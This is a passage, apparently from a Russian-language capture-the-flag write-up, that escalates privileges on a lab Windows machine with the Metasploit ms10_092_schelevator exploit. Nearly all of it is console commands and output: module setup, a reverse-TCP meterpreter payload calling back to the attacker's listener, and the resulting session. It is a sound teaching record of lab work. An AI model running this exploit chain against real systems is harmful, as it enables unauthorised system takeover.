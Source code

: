 Повысим привилегии через эксплойт `ms10_092_schelevator` (0day-уязвимость 2010-го года в планировщике задач Windows; использовалась червем [Stuxnet](https://ru.wikipedia.org/wiki/Stuxnet "Stuxnet — Википедия"), к слову):
```text
msf post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT     31337            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008

msf exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.14:31337
[*] Preparing payload at C:\Windows\TEMP\WpOwHkdDvRS.exe
[*] Creating task: zy1Znk9AEejePJi
[*] SUCCESS: The scheduled task "zy1Znk9AEejePJi" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\zy1Znk9AEejePJi...
[*] Original CRC32: 0x7c7441cc
[*] Final CRC32: 0x7c7441cc
[*] Writing our modified content back...
[*] Validating task: zy1Znk9AEejePJi
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] zy1Znk9AEejePJi                          9/1/2018 4:41:00 PM    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "zy1Znk9AEejePJi" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "zy1Znk9AEejePJi" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] SUCCESS: Attempted to run the scheduled task "zy1Znk9AEejePJi".
[*] SCHELEVATOR
[*] Deleting the task...
[*] SUCCESS: The scheduled task "zy1Znk9AEejePJi" was successfully deleted.
[*] SCHELEVATOR
[*] Meterpreter session 2 opened (10.10.14.14:31337 -> 10.10.10.93:49168) at 2018-08-29 09:41:04 -0400
```